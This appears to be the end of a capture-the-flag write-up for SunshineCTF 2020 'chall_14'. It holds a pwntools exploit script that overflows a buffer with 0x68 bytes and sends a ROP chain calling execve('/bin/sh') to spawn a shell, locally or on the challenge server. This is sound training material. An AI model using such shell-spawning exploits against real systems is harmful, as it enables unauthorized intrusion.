 So, yeah, just send `0x68` bytes of whatever, followed by your ROP chain.

BTW, there are a bunch of different ways to solve this.  This was for me the
lazy fast way.  All script-kiddie.

### Exploit

```python  
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_14')  
context.log_level = 'INFO'

if not args.REMOTE:  
   context.log_file = 'local.log'  
   p = process(binary.path)  
else:  
   context.log_file = 'remote.log'  
   p = remote('chal.2020.sunshinectf.org', 30014)

#ropper --file chall_14 --chain "execve cmd=/bin/sh" --badbytes 0a  
IMAGE_BASE_0 = binary.address  
rebase_0 = lambda x : p64(x + IMAGE_BASE_0)  
rop  = b''  
rop += rebase_0(0x000000000000da7b) # 0x000000000040da7b: pop r13; ret;  
rop += b'//bin/sh'  
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;  
rop += rebase_0(0x00000000002b90e0)  
rop += rebase_0(0x0000000000068a29) # 0x0000000000468a29: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += rebase_0(0x000000000000da7b) # 0x000000000040da7b: pop r13; ret;  
rop += p64(0x0000000000000000)  
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;  
rop += rebase_0(0x00000000002b90e8)  
rop += rebase_0(0x0000000000068a29) # 0x0000000000468a29: mov qword ptr [rdi],
r13; pop rbx; pop rbp; pop r12; pop r13; ret;  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += p64(0xdeadbeefdeadbeef)  
rop += rebase_0(0x0000000000000696) # 0x0000000000400696: pop rdi; ret;  
rop += rebase_0(0x00000000002b90e0)  
rop += rebase_0(0x0000000000010263) # 0x0000000000410263: pop rsi; ret;  
rop += rebase_0(0x00000000002b90e8)  
rop += rebase_0(0x000000000004c086) # 0x000000000044c086: pop rdx; ret;  
rop += rebase_0(0x00000000002b90e8)  
rop += rebase_0(0x00000000000158f4) # 0x00000000004158f4: pop rax; ret;  
rop += p64(0x000000000000003b)  
rop += rebase_0(0x0000000000074e35) # 0x0000000000474e35: syscall; ret;

payload  = 0x68 * b'A'  
payload += rop

p.sendline()  
p.sendline(payload)  
p.interactive()  
```
